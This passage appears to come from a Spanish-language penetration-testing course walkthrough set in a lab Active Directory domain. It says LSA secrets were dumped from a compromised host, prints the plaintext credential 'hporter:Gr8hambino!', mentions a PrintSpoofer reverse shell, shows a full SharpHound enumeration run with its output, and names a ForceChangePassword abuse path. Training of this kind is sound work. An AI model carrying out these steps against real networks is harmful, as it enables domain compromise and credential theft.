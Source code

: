 Después de saquear el host `DEV01`, encontramos el siguiente conjunto de credenciales al volcar los secretos de LSA:

`hporter:Gr8hambino!`

El módulo `Active Directory Enumeration & Attacks` demuestra varias formas de enumerar AD desde un host de Windows. Ya que hemos comprometido profundamente `DEV01`, podemos usarlo como nuestra área de preparación para lanzar más ataques. Usaremos el reverse shell que capturamos en el host `dmz01` después de explotar `PrintSpoofer` por ahora, ya que es bastante estable. Más adelante, es posible que queramos realizar algunos "port forwarding gymnastics" (acrobacias de reenvío de puertos) adicionales y conectarnos a través de RDP o WinRM, pero este shell debería ser suficiente.

Usaremos el colector [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) para enumerar todos los objetos posibles de AD y luego ingerir los datos en la GUI de BloodHound para su revisión. Podemos descargar el ejecutable (aunque en una evaluación del mundo real, es mejor compilar nuestras propias herramientas) y usar el administrador de archivos DNN para subirlo al objetivo. Queremos recopilar la mayor cantidad de datos posible y no tenemos que preocuparnos por la evasión, así que usaremos el flag `-c All` para usar todos los métodos de recopilación.

```r
c:\DotNetNuke\Portals\0> SharpHound.exe -c All

2022-06-22T10:02:32.2363320-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-06-22T10:02:32.2519575-07:00|INFORMATION|Initializing SharpHound at 10:02 AM on 6/22/2022
2022-06-22T10:02:32.5800848-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-06-22T10:02:32.7675820-07:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.LOCAL
2022-06-22T10:03:03.3301538-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 46 MB RAM
2022-06-22T10:03:16.9238698-07:00|WARNING|[CommonLib LDAPUtils]Error getting forest, ENTDC sid is likely incorrect
2022-06-22T10:03:18.1426009-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-06-22T10:03:18.1582366-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-06-22T10:03:18.6738528-07:00|INFORMATION|Consumers finished, closing output channel
2022-06-22T10:03:18.7050961-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-06-22T10:03:18.8769905-07:00|INFORMATION|Status: 3641 objects finished (+3641 79.15218)/s -- Using 76 MB RAM
2022-06-22T10:03:18.8769905-07:00|INFORMATION|Enumeration finished in 00:00:46.1149865
2022-06-22T10:03:19.1582443-07:00|INFORMATION|SharpHound Enumeration Completed at 10:03 AM on 6/22/2022! Happy Graphing!
```

Esto generará un archivo Zip ordenado que podemos descargar nuevamente a través de la herramienta de administración de archivos DNN (¡muy conveniente!). Luego, podemos iniciar el servicio `neo4j` (`sudo neo4j start`), escribir `bloodhound` para abrir la herramienta GUI e ingerir los datos.

Buscando a nuestro usuario `hporter` y seleccionando `First Degree Object Control`, podemos ver que el usuario tiene derechos de `ForceChangePassword` sobre el usuario `ssmalls`.

![text](https://academy.hackthebox.com/storage/modules/163/hporter.png)
